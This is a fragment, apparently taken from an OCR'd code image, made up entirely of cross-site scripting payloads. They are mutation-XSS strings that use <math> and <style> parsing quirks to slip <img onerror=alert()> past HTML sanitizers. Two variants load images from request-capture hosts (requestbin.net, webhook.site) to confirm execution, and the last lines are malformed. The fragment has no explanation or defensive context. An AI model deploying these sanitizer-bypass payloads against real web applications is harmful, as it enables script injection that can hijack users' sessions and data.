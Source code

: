 ">a<math>s<xss style=display:block>t<style>X<a title=""</style>a<img src="http://requestbin.net/r/154l6z91/123" onerror=alert()>">s.<a>.


">a<math>a<xss style=display:block>t<style>X<a title=""</style>a<img src='https://webhook.site/830d2611-45c3-4448-9b8d-c80b74811960' onerror=alert()>">.<a>.


">a<math>a<xss style=display:block>t<style>X<a title=""</style>a<img src=x onerror=alert()>">.<a>.

<img onload='alert()'>

var xx = <math style=""><img onload=xxx>
